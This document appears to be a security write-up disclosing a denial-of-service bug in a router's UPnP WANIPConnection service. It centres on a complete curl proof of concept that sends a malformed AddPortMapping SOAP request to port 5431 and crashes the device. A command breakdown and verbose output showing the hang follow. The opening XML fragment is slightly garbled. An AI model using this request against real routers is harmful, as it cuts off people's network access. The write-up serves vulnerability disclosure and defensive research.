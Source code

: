 ```xml
<
<?xml version="1.0"?>
<s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><s:Body>    <u:AddPortMappingResponse xmlns:u="urn:schemas-upnp-org:service:WANIPConnection:1">
    </u:AddPortMappingResponse>
* Closing connection
</s:Body></s:Envelope>
```


## 1) Malformed Command Analysis (Missing Paramaters)
```bash
curl -v -X POST "http://192.168.1.1:5431/control/WANIPConnection" \
-H "Content-Type: text/xml" \
-H "SOAPAction: \"urn:schemas-upnp-org:service:WANIPConnection:1#AddPortMapping\"" \
-d '<?xml version="1.0"?>
<s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/">
<s:Body><u:AddPortMapping>
<NewPortMappingDescription>hello</NewPortMappingDescription>
</u:AddPortMapping></s:Body></s:Envelope>'
```

#### Command Breakdown
1. **Request Components**
   - **Method**: POST
   - **Port**: 5431
   - **Endpoint**: /control/WANIPConnection
   - **Headers**:
     - Content-Type: text/xml
     - SOAPAction: urn:schemas-upnp-org:service:WANIPConnection:1#AddPortMapping

2. **Malformed XML Analysis**
   - Missing required namespace declarations
   - Incomplete AddPortMapping parameters:
     - No NewRemoteHost
     - No NewExternalPort
     - No NewProtocol
     - No NewInternalPort
     - No NewInternalClient
     - No NewEnabled
     - No NewLeaseDuration
     - Only includes NewPortMappingDescription (optional parameter)
4. **What's happening here?**:
     - Router attempts to process incomplete SOAP structure
     - Missing required fields likely trigger improper error handling
     - Results in service crash rather than graceful error response 

3. **Error Response**
```bash
*   Trying 192.168.1.1:5431...
* Connected to 192.168.1.1 (192.168.1.1) port 5431
> POST /control/WANIPConnection HTTP/1.1
> Host: 192.168.1.1:5431
> User-Agent: curl/8.8.0
> Accept: */*
> Content-Type: text/xml
> SOAPAction: "urn:schemas-upnp-org:service:WANIPConnection:1#AddPortMapping"
> Content-Length: 216
>
* upload completely sent off: 216 bytes
 [Router will crash and this stay frozen here]
```
